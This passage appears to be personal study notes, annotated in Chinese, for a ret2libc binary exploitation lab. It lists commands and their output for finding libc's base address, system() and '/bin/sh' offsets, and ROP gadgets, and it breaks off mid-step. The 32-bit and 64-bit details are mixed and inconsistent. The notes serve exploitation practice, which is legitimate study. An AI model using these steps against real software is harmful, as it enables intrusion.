 ![](imgs/pwn_05_ret2libc_01.jpg)

[pwn_05_ret2libc_01](practise/pwn_05_ret2libc_01.c)

    ldd ret2libc
       linux-gate.so.1 (0xf7f2c000)
       libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d2d000) 基址
       /lib/ld-linux.so.2 (0xf7f2d000)
    
    objdump -d ret2libc
    找到 400550<puts@plt> 最右侧显示 # 601018
    objdump -T libc.so.6 | grep system    
    00131c70 g    DF .text  00000066  GLIBC_2.0   svcerr_systemerr
    00044660 g    DF .text  00000037  GLIBC_PRIVATE __libc_system
    00044660  w   DF .text  00000037  GLIBC_2.0   system # system() 函数的偏移为 0x00044660 实际地址为 0xf7d2d000+0x00044660


​    
​    readelf -a libc-2.27.so | grep "puts"
​        42: 00809c0 puts@@GLIBC_2.2.5
​    
​    strings libc-2.27.so -tx | grep "/bin/sh"
​        1b3e9a /bin/sh
​    
​    ROPgadget --binary libc-2.27.so > g
​    cat g | grep "pop rdi"
​       0x2155f : pop rdi ; ret
​    cat g | grep "pop rsi"
​       0x23e6a : pop rsi ; ret
​    cat g | grep "pop rdx"
​       0x01b96 : pop rdx ; ret
​    cat g | grep "pop rax"
​       0x439c8 : pop rax ; ret
​    cat g | grep "syscall"